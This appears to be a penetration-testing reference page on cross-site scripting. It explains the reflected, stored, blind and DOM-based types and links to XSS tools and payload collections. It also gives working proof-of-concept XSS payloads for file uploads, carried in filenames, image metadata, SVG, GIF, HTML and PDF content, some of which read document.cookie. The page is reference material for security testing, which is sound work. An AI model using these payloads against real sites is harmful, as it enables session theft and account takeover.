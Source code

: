 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# **Cross-site scripting (XSS)** #

### **Concept** ###

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

### **Types of XSS** ####

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### **Reflected Cross-Site Scripting** ###

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### **Stored Cross-Site Scripting** ###

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### **Blind Cross-Site Scripting** ###

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### **Document Object Model-based Cross-Site Scripting** ###

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### **XSS via file upload payloads** ###

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### **Metadata (exit tool)** ####

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### **SVG content XSS (save the below content in SVG file)** ####

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### **Gif extension XSS (save the below content in gif file)** ####

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### **Html extension (save the below content in HTML file)** ####

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### **PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).** ####

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```
### **Tools** ###

[https://xsshunter.com/features](https://xsshunter.com/features)
The Best tool for Blind XSS


[https://github.com/ssl/ezXSS](https://github.com/ssl/ezXSS)
Has 2fa, email reports, share reports feature


[https://knoxss.me/](https://knoxss.me/)
Knoxss


[https://www.irongeek.com/homoglyph-attack-generator.php](https://www.irongeek.com/homoglyph-attack-generator.php)

[https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)

### **Automation XSS** ###

[https://github.com/theinfosecguy/QuickXSS](https://github.com/theinfosecguy/QuickXSS)

### **References** ###

[Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)

[Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)

[Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)

[https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)

[https://www.youtube.com/watch?v=gkMl1suyj3M](https://www.youtube.com/watch?v=gkMl1suyj3M)

[https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/)

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

[https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)

[https://t.co/7O45xvRMf4?amp=1](https://t.co/7O45xvRMf4?amp=1)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

[https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

